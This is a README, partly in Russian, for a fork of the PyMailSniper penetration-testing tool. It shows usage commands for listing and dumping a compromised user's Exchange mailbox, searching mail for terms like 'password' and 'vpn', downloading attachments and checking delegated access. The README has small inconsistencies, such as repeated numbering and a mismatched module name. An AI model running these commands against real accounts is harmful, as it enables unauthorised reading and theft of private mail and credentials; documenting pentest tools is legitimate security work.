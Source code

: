 # Инфо

За основу взят проект от foofus-sph1nx - https://github.com/foofus-sph1nx/PyMailSniper

**TOOL IS UNDER DEVELOPMENT**

**A LOT OF BUGS MAY APPEAR**

**ONLY FOLDER LISTING AND DUMPING IS STABLE RIGHT NOW**
# Что и зачем

Во время пентестов, компрометируя пользователя, никогда не будет лишним изучить его почту, 
но сделать это не всегда просто - трудности возникают при отсутствие GUI, пробрасывании портов и т.п.
Этот форк призван облегчить жизнь пентестерам и прочим личностям, максимально упростив исследование почтовых ящиков на основе MS Exchange.

Создается на основе Exchangelib - (https://github.com/ecederstrand/exchangelib)


PS:
Я не про кодер, пишу в первую очередь для себя, исправления и пожелания приветствуются)

# В чем отличия от оригинала
1) Выкачивание папок и писем в файлы формата mbox
2) Нормальный листинг папок
3) Многопоточность
4) tqdm


# Usage

1. Main Help
   
   ```bash
   python3 pymailsniper.py -h
   
   usage: python3 pymailsniper.py module [options]

   optional arguments:
     -h, --help            show this help message and exit

   Modules:
     available modules

     {folders,attachment,delegation,emails}
       folders             List Mailbox Folders
       attachment          List/Download Attachments
       delegation          Find where compromised user has access
       emails              Search for Emails

   ```

2. folders module help (Просмотр Папок)
   ```bash
   usage: python3 pymailsniper.py module [options] folders [-h] [-s SERVER]
                                                        [-e EMAIL]
                                                        [-p PASSWORD] [-a]
                                                        [-c]

   optional arguments:
     -h, --help            show this help message and exit
     -s SERVER, --remote-server SERVER
                           EWS URL for Mail Server
     -e EMAIL, --email EMAIL
                           Email address of compromised user
     -p PASSWORD, --password PASSWORD
                           Password of compromised user
     -a, --absolute        Print folders absolute paths instead tree if arg is present
     -c, --count           Print count of child folders and email if present
     -r, --root            Use "root" folder as root for printing insted of "Top Information Store"

   ```
   Вывести список папок в виде дерева - 
    ```bash
    python3 pymailsniper.py folders -s outlook.office365.com -e xyz@domain.com -p Password1
    ```
   Вывести список папок в виде дерева с указанием кол-ва дочерних папок и писем - 
    ```bash
    python3 pymailsniper.py folders -c -s outlook.office365.com -e xyz@domain.com -p Password1
    ```
   Вывести список папок (абсолютные пути) - 
    ```bash
    python3 pymailsniper.py folders -a -s outlook.office365.com -e xyz@domain.com -p Password1
    ```
   Вывести список папок (абсолютные пути) с указанием кол-ва дочерних папок и писем - 
    ```bash
    python3 pymailsniper.py folders -a -c -s outlook.office365.com -e xyz@domain.com -p Password1
    ```

3. Dump module help (Скачиваем папки с письмами в mbox файлы)

   ```bash
   usage: python3 pymailsniper.py module [options] dump [-h] [-s SERVER]
                                                     [-e EMAIL] [-p PASSWORD]
                                                     [-d DUMP_FOLDER]
                                                     folder

   positional arguments:
     folder                Folder to dump

   optional arguments:
     -h, --help            show this help message and exit
     -s SERVER, --remote-server SERVER
                           EWS URL for Mail Server
     -e EMAIL, --email EMAIL
                           Email address of compromised user
     -p PASSWORD, --password PASSWORD
                           Password of compromised user
     -d DUMP_FOLDER, --dump-folder DUMP_FOLDER
                           Local folder to store .mbox dumps
   ```

   Скачать вообще все в папку dump(очень долго, не советую, посмотрю в сторону многопоточности) - 
    ```bash
    python3 pymailsniper.py dump all -d ./dump -s outlook.office365.com -e xyz@domain.com -p Password1
    ```
    Скачать папку "secrets" в папку "qweqwe" - 
    ```bash
    python3 pymailsniper.py dump secrets -d ./qweqwe -s outlook.office365.com -e xyz@domain.com -p Password1
    ```

3. Exfiltrate emails (Еще не смотрел)

   ```bash
    python3 pymailsniper.py emails -s outlook.office365.com -e xyz@domain.com -p Password1 -t vpn,remote,password --field subject -c 100 -o emails.txt
   ```

4. List and/or Download attachments (Еще не смотрел)

   ```bash
    python3 pymailsniper.py attachment -s outlook.office365.com -e xyz@domain.com -p Password1 -t vpn,remote,password --field subject -c 100 -d l00t
   ```

5. Check if compromised account has delegated rights to any other inboxes (Еще не смотрел)

   ```bash
    python3 pymailsniper.py attachment -s outlook.office365.com -e xyz@domain.com -p Password1 -g list-of-emails.txt
   ```

